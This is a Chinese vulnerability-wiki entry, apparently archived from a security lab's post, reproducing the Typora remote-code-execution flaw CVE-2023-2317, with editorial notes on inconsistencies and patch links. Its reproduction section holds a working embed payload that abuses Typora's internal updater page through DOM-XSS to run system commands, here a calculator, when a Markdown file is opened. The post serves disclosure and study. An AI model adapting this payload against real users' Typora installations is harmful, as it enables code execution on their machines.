




# Typora 远程代码执行漏洞 (CVE-2023-2317)

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Typora updater页面
- 文献类型：Typora DOM-XSS到命令执行实验
- 版本、权限及部署边界：Windows1.5.12测试、<1.6.7；用户打开含HTML embed的Markdown；主窗口reqnode能力
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 概述update.html而PoC及后文updater.html路径不一致，需统一真实内部页面
2. 明确打开恶意文件条件，远程来源不等网络零交互入口；执行权限继承用户而非自动管理员
3. 新建md并注意类型html表述模糊，需说明编辑/预览/代码块呈现条件；脚本只Windows/Linux分支不能外推所有平台
4. 测试视频链接javascript:;是空占位，成功主要截图未视检；官方1.6发布说明在，缺原发现者/PoC来源
5. 重复装饰图片和实验室推广大量冗余；版本范围需核官方下限

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://mp.weixin.qq.com/s/xj08AP19KyFLYwWtHwmDrQ>
- 原文参考链接（未重新核验）：<http://ksria.com/simpread/>
- 原文参考链接（未重新核验）：<https://support.typora.io/What's-New-1.6/>
- 原文参考链接（未重新核验）：<https://buaq.net/go-175535.html?utm_source=feedly>
- 原文参考链接（未重新核验）：<https://github.com/MrWQ/vulnerability-paper>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/xj08AP19KyFLYwWtHwmDrQ)

  

网安引领时代，弥天点亮未来   

  

  


  

**0x00 写在前面**  

  

**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**


  

**0x01 漏洞介绍**

Typora 是一款编辑器。

Typora 1.6.7 之前版本存在安全漏洞，该漏洞源于通过在标签中加载 typora://app/typemark/updater/update.html ，可以在 Typora 主窗口中加载 JavaScript 代码。


  

**0x02 影响版本**  

Typora < 1.6.7


  

**0x03 漏洞复现**  

  

1. 下载部署有漏洞版本环境, 这里部署版本为

Typora for Windows 1.5.12



2. 对漏洞进行复现

 **POC** 

```
<embed src="typora://app/typemark/updater/updater.html?curVersion=111&newVersion=222&releaseNoteLink=333&hideAutoUpdates=false&labels=[%22%22,%22%3csvg%2fonload=top.eval(atob('cmVxbm9kZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoKHtXaW4zMjogJ2NhbGMnLCBMaW51eDogJ2dub21lLWNhbGN1bGF0b3IgLWUgIlR5cG9yYSBSQ0UgUG9DIid9KVtuYXZpZ2F0b3IucGxhdGZvcm0uc3Vic3RyKDAsNSldKQ=='))><%2fsvg>%22,%22%22,%22%22,%22%22,%22%22]">

```

base64 解码



当在 Typora 中加载此 PoC 时，使用 DOM-XSS Payload 加载 updater.html，有效负载在主窗口上执行 JavaScript 代码，执行系统命令。具体操作如下：

1. 新建 md 文件，写入 poc 代码，注意类型为 html  



2. 然后打开文件，将进行命令执行。



测试视频  

视频详情


  

**0x04 修复建议**  

  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

```
https://support.typora.io/What's-New-1.6/
https://buaq.net/go-175535.html?utm_source=feedly

```

**弥天简介**

**学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于 2019 年 2 月 19 日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。**

**口号 网安引领时代，弥天点亮未来**

 

知识分享完了

喜欢别忘了关注我们哦~

学海浩茫，

予以风动，

必降弥天之润！

   弥  天

安全实验室  


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
